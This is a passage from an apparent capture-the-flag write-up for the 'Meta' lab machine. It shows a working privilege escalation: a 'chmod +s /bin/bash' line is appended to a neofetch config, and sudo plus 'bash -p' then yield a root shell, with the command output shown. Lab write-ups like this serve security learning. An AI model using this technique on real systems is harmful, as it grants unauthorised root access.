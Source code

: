 ```bash

dynamic_prompt() {
    [[ $image_backend == off ]]   && { printf '\n'; return; }
    [[ $image_backend != ascii ]] && ((lines=(height + yoffset) / font_height + 1))
    [[ $image_backend == w3m ]] && ((lines=lines + padding / font_height + 1))

--
    [[ "$*" != *--config* ]] && get_user_config
...[snip]...
```

To abuse this we can simply append a command setting the suid bit on bash to the config file, export the `XDG_CONFIG_HOME` variable and run neofetch with sudo. Finally we can use the `-p` flag on bash to keep the suid permissions on our modified bash and add the root flag to our collection.

```php
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ echo 'chmod +s /bin/bash' >> /home/thomas/.config/neofetch/config.conf; export XDG_CONFIG_HOME=/home/thomas/.config/; sudo /usr/bin/neofetch; bash -p
       _,met$$$$$gg.          root@meta
    ,g$$$$$$$$$$$$$$$P.       ---------
  ,g$$P"     """Y$$.".        OS: Debian GNU/Linux 10 (buster) x86_64
 ,$$P'              `$$$.     Host: VMware Virtual Platform None
',$$P       ,ggs.     `$$b:   Kernel: 4.19.0-17-amd64
`d$$'     ,$P"'   .    $$$    Uptime: 52 mins
 $$P      d$'     ,    $$P    Packages: 495 (dpkg)
 $$:      $$.   -    ,d$$'    Shell: bash 5.0.3
 $$;      Y$b._   _,d$P'      CPU: Intel Xeon Gold 5218 (2) @ 2.294GHz
 Y$$.    `.`"Y$$$$P"'         GPU: VMware SVGA II Adapter
 `$$b      "-.__              Memory: 154MiB / 1994MiB
  `Y$$
   `Y$$.
     `$$b.
       `Y$$b.
          `"Y$b._
              `"""

bash-5.0# id
uid=1000(thomas) gid=1000(thomas) euid=0(root) egid=0(root) groups=0(root),1000(thomas)
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```